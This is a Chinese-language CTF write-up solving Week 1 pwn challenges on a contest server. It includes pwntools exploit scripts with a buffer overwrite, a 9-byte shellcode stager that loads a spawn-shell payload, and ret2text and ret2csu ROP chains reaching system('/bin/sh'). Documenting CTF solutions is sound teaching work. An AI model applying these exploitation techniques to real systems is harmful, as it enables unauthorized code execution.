










## Week1

### 奇妙杂货铺

nc连接上去  
  
发现flag高达99999金币，我们只有100金币买不起，根据题目信息提示`试着把购买的规则“倒”过来玩`，于是我们可以购买-1个flag以此获得99999金币，然后再去买1个flag即可  


### 亦步亦趋

nc连接上去发现要我们覆写变量内容，ida分析一下文件  
  
发现只有当v2 = -559038737时才能进入下一步，也就是将v2覆写为0xdeadbeef（同连接上题目信息所说），写payload发过去即可进入下一关
```
payload = b'a' * 28 + p64(0xdeadbeef)
```
第二关的要求就是ret2text，程序内有后门函数，那我们覆盖返回地址为后门函数地址即可

### ！？数学基础？

这题nc连上后发现要我们做很多的计算题，而且给的时间极短，根本来不及，所以我们写一个exp脚本来完成。这题计算符号给的挺阴间的，可以先nc多试几个，把所有的四个符号全试出来，再写脚本，exp如下：
```python
from pwn import *

io = remote('nc1.ctfplus.cn', 44360)

for i in range(100):
    io.recvuntil(b'calculate: ')

    a = int(io.recvuntil(b' ', drop=True))
    op = io.recvuntil(b' ', drop=True).decode()
    b = int(io.recvuntil(b' ', drop=True))

    if op == 'x':
        result = a * b
    elif op == '＋':
        result = a + b
    elif op == '一':
        result = a - b
    elif op == '÷':
        result = a // b
        
    io.sendline(str(result).encode())
    
io.interactive()
```

### 两次回响

先checksec查文件保护机制，发现NX状态未知，且栈可执行，怀疑是shellcode题  
  
ida静态分析，发现程序为我们分配了一块可读写执行的内存空间，而且向其中写入数据后还自调用了  
  
但是问题在于，read函数写入时只给了9字节的长度限制，因此这题考点就在于如何手写shellcode上。  
如果按照一般情况下来写shellcode，字节数一定是会超过9字节的。这里用到了另一种思想，通过再写入一个读取字节数更长的read函数作为加载器，间接地写入更长的shellcode，shellcode如下：
```python
asm('''
    xor eax, eax
    xor edi, edi
    push 0x7f
    pop rdx
    syscall
''')
```
解析：这里先将eax清零，让syscall系统调用read函数，然后清零edi，使read从stdin读取数据，然后rsi是没有变的，还是原来的buf，而我们要做的就是<mark style="background: #FF5582A6;">通过push和pop把更长的字节限制传入到rdx寄存器，使得再次调用的read函数能够写入更长的shellcode</mark>。寄存器都安排好了，就可以syscall进行系统调用了，刚好是9个字节  
不过还有一个问题，由于我们没有操作rsi，所以此时rsi中存储的还是buf这个地址，第二次的read还是从buf开始写入的，但是我们的rip已经在 `buf + 9` 这个地址了，当结束了syscall调用的read函数后，下一条指令的地址应该是 `buf + 9`，所以我们的shellcode也必须从 `buf + 9` 这个地址开始写，所以我们需要先填充9个字节补齐，再写入shellcode，exp如下：
```python
from pwn import *

context(arch='amd64', os='linux')

io = remote('nc1.ctfplus.cn', 33191)

loader = asm('''
    xor eax, eax
    push 0x7f
    pop rdx
    syscall
''')

shellcode = asm(shellcraft.sh())

io.send(loader)
io.send(b'a' * 9 + shellcode)

io.interactive()
```

### 三扇门

checksec查文件保护机制  
  
ida静态分析，发现缓冲区溢出漏洞  
  
然后发现这里一直在说ret2csu，而且确实有_libc_csu_init函数，很明显，出题人想让我们使用使用ret2_libc_csu_init的攻击手段  
  
  
然后我们可以发现win函数，函数中判断273,546,819三个数是否正确，正确就system("/bin/sh")。去细看汇编就会发现，要求就是向edi中存入111h，向esi中存入222h，向edx中存入333h，就可以成功getshell了

- 但是呢，你怎么直接把system("/bin/sh")就这么放在这里了？？？？那我岂不是直接ret2text就可以了？🤣🤣exp如下：
```python
from pwn import *

context(arch = 'amd64', os = 'linux')

io = remote('nc1.ctfplus.cn', 49765)

system_addr = 0x40129D

payload = b'a' * 24 + p64(system_addr)

io.sendline(payload)

io.interactive()
```
叽里咕噜说什么呢😡，我直接ret到你的结果，绕过你的if检查不就好了😋👊👊

- 毕竟出题人都费尽心思出了，那我们就用ret2_libc_csu_init按照出题人的思路做一遍  
  
不难发现，在_libc_csu_init函数中，我们只需要先ret到下面的pop依次把栈上的数据弹入r12,r13,r14中，然后再ret到上面的mov，就可以把任意数据存入rdx,rsi,edi中了，然后我们对win函数按x看它的交叉引用，看看它的入口在哪里  
  
可以看到，有一个doors数组，数组中的值分别为lose1,lose2,win，也就是`[lose1, lose2, win]`。所以我们依旧可以利用_libc_csu_init中的在mov后紧跟着的call函数  
  
不难发现，这里的call函数其实调用的是`[r15+rbx*8]`这个地址，那我们就可以通过将r15中存入doors数组的地址，rbx存入2的形式调用到win函数，也就是`&doors[2]`这种形式，至此rop链完整  
（因为我们最后是调用了system函数，这个函数内部会执行`movaps`此类SSE指令，要求地址16字节对齐，否则会SIGSEGV。这里6个pop，1个ret，3个mov，最后call，pop和ret都会使栈偏移8字节，mov和call不操作栈，因此这里是7 * 8 = 56字节，刚好差8个字节使得64 % 16 == 0，因此补1个ret保持16字节的栈对齐）  
exp如下：
```python
from pwn import *

context(arch = 'amd64', os = 'linux')

io = remote('nc1.ctfplus.cn', 49765)

payload = b'a' * 24

ret_addr = 0x40101a
payload += flat([ret_addr])

csu_pop_addr = 0x40138A
csu_mov_addr = 0x401370
doors_addr = 0x404050
payload += flat([csu_pop_addr, 2, 0xdeadbeef, 0x111, 0x222, 0x333, doors_addr, csu_mov_addr])

io.sendline(payload)

io.interactive()
```
